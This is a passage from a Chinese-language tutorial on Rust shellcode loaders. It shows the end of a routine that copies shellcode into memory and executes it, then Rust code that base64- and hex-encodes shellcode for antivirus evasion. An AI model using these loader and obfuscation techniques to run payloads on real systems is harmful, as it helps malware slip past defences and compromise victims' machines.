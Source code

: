 ```plain
        if GetLastError() == 0 {
            std::ptr::copy(buffer.as_ptr() as *const u8, ptr as *mut u8, buffer.len());
            let exec = transmute::<*mut c_void, fn()>(ptr);
            exec();
        }
    }
}
```

## Shellcode 混淆方式

上面介绍了在 Rust 中为 shellcode 申请内存空间和执行 shellcode 的几种常见的方式，接下来会介绍几种常见的编码和加密混淆方式在 Rust 中的实现。在实际的 shellcode 免杀的时候经常需要结合几种混淆方式，或者是自己设计加密混淆方式。

### Base64 编码

在 Rust 中实现 base64 编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
base64 = "0.20.0"
```

通过下面的代码即可将传入的切片类型的 shellcode 进行 base64 编码并返回一段字符串。

```plain
fn b64_enc(shellcode: &[u8]) -> String {
    base64::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回 Vec 数组类型的 shellcode。

```plain
fn b64_dec(shellcode:String) -> Vec<u8> {
    base64::decode(shellcode).expect("Error")
}
```

### Hex 编码

在 Rust 中实现 Hex 编码同样需要引入依赖，在`Cargo.toml`文件中添加如下依赖：

```plain
[dependencies]
hex = "0.4.3"
```

通过下面的代码即可将传入的切片类型的 shellcode 进行 Hex 编码并返回一段字符串。

```plain
fn hex_enc(shellcode: &[u8]) -> String {
    hex::encode(shellcode)
}
```

通过以下代码即可将得到的字符串解码，并返回 Vec 数组类型的 shellcode。
